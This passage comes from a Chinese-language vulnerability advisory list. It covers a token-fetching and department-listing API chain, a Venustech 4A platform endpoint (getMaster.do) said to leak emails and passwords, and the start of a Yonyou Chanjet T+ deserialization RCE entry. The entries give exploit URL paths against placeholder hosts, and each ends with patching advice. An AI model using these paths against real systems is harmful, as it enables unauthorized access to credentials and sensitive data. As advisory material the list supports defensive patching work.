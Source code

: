 



获取strcorpid和Secret的值后访问下面的路径获取access_token



```
http://XXX.com/cgi-bin/gettoken?corpid=strcorpid&corpsecret=Secret
```





获取到access_token后就可以进行敏感信息的查询了，比如查询企业部门列表



```
http://XXX.com/cgi-bin/department/list?access_token=xxxxxxxx
```





**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。



#####             20.     **启明星辰-4A 统一安全管控平台 getMater 信息泄漏**

**漏洞描述：** 启明4A统一安全管控平台的getMaster节点，存在信息泄漏，可以返回邮箱，密码等敏感信息。

**漏洞等级：**高

**漏洞类型：**0day/1day/nday

**影响版本：**

**漏洞详情：**



```
http://XXX.com/accountApi/getMaster.do
```





**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。

#####             21.     **用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞**

**漏洞描述：** 用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器。

**漏洞等级：**高

**漏洞类型：**0day/1day/nday

**影响版本：**畅捷通Tplus 13.0，Tplus 16.0

**漏洞详情：**

登录页面
